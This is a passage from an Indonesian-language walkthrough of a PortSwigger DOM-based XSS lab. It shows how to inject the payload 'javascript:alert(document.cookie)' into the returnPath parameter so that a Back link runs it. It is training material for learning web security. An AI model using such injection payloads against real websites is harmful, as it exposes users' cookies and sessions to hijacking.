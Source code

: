 - Akan ditemukan function javascript sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2028.JPG)

- Masukkan payload berikut ini pada nilai parameter **returnPath** kemudian tekan enter
```sh
javascript:alert(document.cookie)
```

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2029.JPG)

- Jika kita melakukan inspeksi pada Back link akan tampak HTML sebagai berikut
```sh
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```
- Jika kita klik link tersebut akan muncul popup

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2030.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/portswigger-labs/blob/main/XSS/APPRENTICE/assets/xss%2031.JPG)
